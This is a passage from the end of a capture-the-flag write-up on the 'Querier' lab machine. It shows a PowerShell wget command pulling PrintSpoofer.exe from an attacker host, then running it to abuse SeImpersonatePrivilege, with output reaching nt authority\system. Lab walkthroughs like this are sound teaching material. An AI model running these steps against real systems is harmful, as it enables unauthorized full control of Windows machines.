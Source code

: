Lets transfer over PrintSpoofer.exe
```
C:\Users\Public>powershell wget http://10.10.14.49/PrintSpoofer.exe -OutFile c:\\Users\Public\\PrintSpoofer.exe"
```

We can then run it with:

```
C:\Users\Public>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Nice, that worked! Lets grab the final flag:

![querier_root_flag.png](../assets/querier_assets/querier_root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------
